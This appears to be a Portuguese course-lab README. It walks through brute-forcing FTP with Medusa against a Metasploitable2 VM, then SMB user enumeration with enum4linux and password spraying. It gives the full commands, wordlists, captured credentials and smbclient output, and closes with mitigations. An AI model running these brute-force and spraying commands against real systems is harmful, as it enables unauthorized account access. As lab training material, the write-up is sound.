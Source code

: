 # DIO-Santander-Ciberseguranca


Simulando Ataques de Força Bruta com Medusa (Kali → Metasploitable2)
Resumo

Projeto prático que simula ataques de força bruta em um ambiente controlado usando Medusa (Kali Linux atacando Metasploitable2). Documenta ambiente, comandos, wordlists simples, evidências e recomendações.

Ambiente de teste

Host: VirtualBox (Host-Only)

VM Atacante: Kali Linux — 192.168.56.103

VM alvo: Metasploitable2 — 192.168.56.101

Observação: este teste foi executado apenas em laboratório controlado (Metasploitable2).

Arquivos de wordlists / usuários usados

No laboratório criei dois arquivos simples:

Criar users.txt:
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt

Criar pass.txt:
echo -e "123456\nmsfadmin\nqwerty\npassword" > pass.txt

Conteúdo (visível nos prints):

users.txt:

user
msfadmin
admin
root


pass.txt:

123456
msfadmin
qwerty
password

Comando utilizado (Medusa)

Executado a partir do Kali:

medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6


-h host alvo

-U arquivo de usuários

-P arquivo de senhas

-M ftp módulo FTP

-t 6 threads

Resultado observado (evidências)

Durante a execução, o Medusa testou combinações e retornou uma credencial encontrada:

Exemplo de linha capturada na saída do Medusa (print):
2025-10-21 00:11:24 ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]

Após isso, foi possível acessar o serviço FTP manualmente:

ftp 192.168.56.101
# Quando solicitado:
Name (192.168.56.101:cyber): msfadmin
Password: msfadmin
# Mensagem:
230 Login successful.



Como salvar logs (exemplo)
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6 2>&1 | tee outputs/medusa_ftp.txt
script -c "medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6" outputs/medusa_session.txt

ENUMERAÇÃO DE USUARIOS COM ENUM4LINUX

# enum4linux -a 192.168.56.101 | tee enum4_output.txt 
-a = ativar técnicas de enumeração + ip do alvo + tee "nome do arquivo" para gravar saída do comando num arquivo.
abrir o comando = $ less enum4_output.txt

Enumeração de senhas e acesso utilizando smbclient:
Tecnica password spraying = testa vários usuarios para mesma senha;

echo -e "user\nmsfadmin\nservice" > smb_ users.txt = criar wordlist de usuarios

echo -e "nmsfadmin\password\nWelcome123\n123456" > senhas_spray.txt = criar wordlist de senhas

medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50 = "ataque via smb testando 2 usuários ate 50 hosts paralelos"

VERIFICAR SE O ACESSO DESCOBERTO É VALIDO

smbclient -L //192.168.56.101 -U "usuario encontrato"

RESULTADO:

└─# smbclient -L //192.168.56.101 -U msfadmin
Password for [WORKGROUP\msfadmin]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk
        IPC$            IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
        msfadmin        Disk      Home Directories
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            METASPLOITABLE


Recomendações e Mitigações (resumo)

Desabilitar FTP se não for necessário; usar SFTP/FTPS.

Implementar bloqueio de conta ou bloqueio por IP após N tentativas falhas.

Forçar senhas fortes e políticas de expiração.

Monitorar logs de autenticação e alertar tentativas suspeitas.

Segmentar serviços (SMB/FTP) para redes internas apenas.
